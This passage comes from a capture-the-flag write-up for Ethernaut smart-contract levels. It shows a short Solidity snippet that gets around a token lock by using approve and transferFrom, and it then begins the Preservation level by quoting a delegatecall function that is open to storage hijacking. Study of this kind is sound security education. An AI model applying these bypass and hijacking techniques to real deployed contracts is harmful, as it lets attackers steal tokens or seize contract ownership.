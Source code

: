 Now, the [ERC20 interface](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/f8e3c375d19bd12f54222109dd0801c0e0b60dd2/contracts/token/ERC20/IERC20.sol) have other functions, namely [`transferFrom()`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/f8e3c375d19bd12f54222109dd0801c0e0b60dd2/contracts/token/ERC20/IERC20.sol#L77), which has not been overriden, therefore we can avoid the `lockTokens` modifier

```solidity
uint256 balance = nc.balanceOf(address(this));

nc.approve(address(this), balance);
nc.transferFrom(address(this), tx.origin, balance);
```

### References

* https://eips.ethereum.org/EIPS/eip-20#transferfrom
* https://docs.openzeppelin.com/contracts/4.x/erc20
* https://github.com/OpenZeppelin/openzeppelin-contracts/blob/f8e3c375d19bd12f54222109dd0801c0e0b60dd2/contracts/token/ERC20/IERC20.sol
* https://github.com/OpenZeppelin/openzeppelin-contracts/blob/f8e3c375d19bd12f54222109dd0801c0e0b60dd2/contracts/token/ERC20/ERC20.sol#L158-L163

## 16 Preservation

To beat this level, we need to comply with

```solidity
preservation.owner() == _player;
```

### Solution

Look at the function `setFirstTime()`.

```solidity
function setFirstTime(uint _timeStamp) public {
  timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
}
```

What it does is leveraging the library in the address stored at the variable `timeZone1Library`, and execute the call specified by the variables `setTimeSignature` and `_timeStamp`.

The contract is initialized and `timeZone1Library` points at this contract

```solidity
// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```
